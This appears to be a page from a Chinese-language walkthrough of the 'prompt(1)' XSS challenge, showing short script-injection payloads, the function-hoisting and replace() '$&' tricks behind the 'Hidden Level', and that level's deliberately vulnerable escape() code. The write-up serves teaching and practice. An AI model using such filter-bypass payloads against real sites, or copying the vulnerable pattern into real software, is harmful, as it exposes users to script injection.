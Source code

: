 ```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>

```

在Firefox和IE下，`</script>`不需要，可以减少到42个字符

```
"><svg><!--#--><script><!--#-->prompt(1)</

```

在最新的Firefox Aurora版本上，还可以如下（译者未测试）：

```
"><script>`#${prompt(1)}#`</script>

```

Hidden Level
------------

这里主要使用了两个非常有用的技巧，第一个是javascript的变量提升，以下语法可以在chrome下F12执行

```
function functionDeclaration(a,b,c) {
    alert('Function declared with ' + functionDeclaration.length + ' parameters');
}


functionDeclaration(); //alert > Function declared with 3 parameters

```

还有一个技巧就是第13题提到的`replace()`的匹配技巧，使用`$&`，测试如下：

```
'123456'.replace('34','$&x')

'1234x56'   //x 直接插入到 查找到的 34位置

```

所以可以构造下面的代码

```
if (history.length > 1337) {                                 
   // you can inject any code here
   // as long as it will be executed
   function history(l,o,r,e,m...1338 times...){{injection}}
   prompt(1)
}   

```

### code

```
function escape(input) {
    // WORLD -1
    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');
    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
```